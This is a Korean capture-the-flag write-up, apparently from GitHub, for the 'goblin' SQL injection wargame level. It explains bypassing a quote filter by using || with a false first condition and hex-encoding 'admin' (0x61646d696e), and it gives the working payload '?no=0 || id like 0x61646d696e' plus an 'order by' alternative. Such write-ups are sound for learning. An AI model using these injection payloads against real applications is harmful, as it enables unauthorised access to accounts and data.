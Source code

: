 ## Q3. goblin _ 스트링 우회 기법
<img src="/photo/prob_03.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: ' / " / ` <br> 문제 사항: 쿼리에 id=admin을 만들어내라.
### 해결책

```
현재 쿼리문에서 id='guest'로 고정되어 있음
=> no에 id컬럼 만들어 admin 적용
=> || 이용
=> || 이므로 앞 조건은 거짓이 되도록함  
```
```diff
# 현재 쿼리문: where id='guest' and no=0 || id='admin'
```
```
but. 싱글쿼터가 제한됨
=> 싱글쿼터 없이 문자열 표현이 가능해야함
=> 스트링 우회 기법 사용
=> DB에서 16진수를 인식하므로 이를 이용
=> admin을 HEX Encoding
```
```
해결 쿼리문: where id='guest' and no=0 || id like 0x61646d696e
```
### CERT <br> ?no=0 || id like 0x61646d696e

### 느낀점
```diff
+ 스트링 우회 기법에 대해 배웠다.
+ DB에서 16진수를 인식하므로 HEX Encoding으로 우회하는 방법이었다.

- 싱글쿼터 없이 문자열 표현할 수 있는 방법을 몰라서 힘들었다.
```

### 다른 풀이
1. ?no=0 || 1 order by id asc  
   - 1이므로 admin도 있음
   - => but. 안 보임
   - => 정렬을 해서 위로 올림

